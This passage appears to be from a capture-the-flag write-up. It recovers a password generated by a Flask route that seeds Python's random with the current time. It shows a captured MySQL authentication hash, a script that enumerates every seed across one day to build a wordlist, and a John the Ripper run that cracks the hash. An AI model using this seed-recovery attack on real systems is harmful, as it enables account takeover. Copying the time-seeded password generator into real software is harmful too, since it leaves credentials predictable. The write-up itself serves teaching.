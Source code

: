 ```
$ cat /tmp/_mysqlna
jack:$mysqlna$112233445566778899aabbccddeeff1122334455*bcd7323fe921ced57a1bedbda67f9d2d63b8badb
```

The password for this might have been generate by the `api_password` function in `app.py`.

`app.py`
```py
...[snip]...
@app.route("/api/password")
def api_password():
	chars = string.ascii_letters + string.digits
	random.seed(int(time.time()))
	password = ''.join([random.choice(chars) for x in range(32)])
	return Response(json.dumps({"password": password}), mimetype="application/json")

## API END
...[snip]...
```

What we need now is a timeframe since the seed of the random function takes the current time. Looking at the comments of `app.py` `# 10/07/21 - removed creds and placed in environment` indicates that the password might have been generated one `10/07/21`. Converting the timeframe to two epoch timestamps we are able to write a script that prints all possible passwords for that day.

```
$ date -d '07/10/2021 00:00:00' +"%s"
1625875200
$ date -d '07/11/2021 00:00:00' +"%s"
1625961600
```

`genpw.py`
```py
import random
import string
import random

start = 1625875200
end   = 1625961600
chars = string.ascii_letters + string.digits


for i in range(start,end):
    random.seed(i)
    password = ''.join([random.choice(chars) for x in range(32)])
    print(password)
```

```
$ python genpw.py > passwords
```

Using this wordlist the hash cracks very quickly to `4DyeEYPgzc7EaML1Y3o0HvQr9Tp9nikC`.

```
$ john --wordlist=./passwords hash
Using default input encoding: UTF-8
Loaded 1 password hash (mysqlna, MySQL Network Authentication [SHA1 32/64])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
4DyeEYPgzc7EaML1Y3o0HvQr9Tp9nikC (jack)
1g 0:00:00:00 DONE (2021-11-07 21:37) 12.50g/s 819200p/s 819200c/s 819200C/s AoZhs8SkHdoYzT9gBqAVRw3YUct7aA1B..aVRH5bTVtfnSv1ymYMbC05BnxA3eMD1c
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

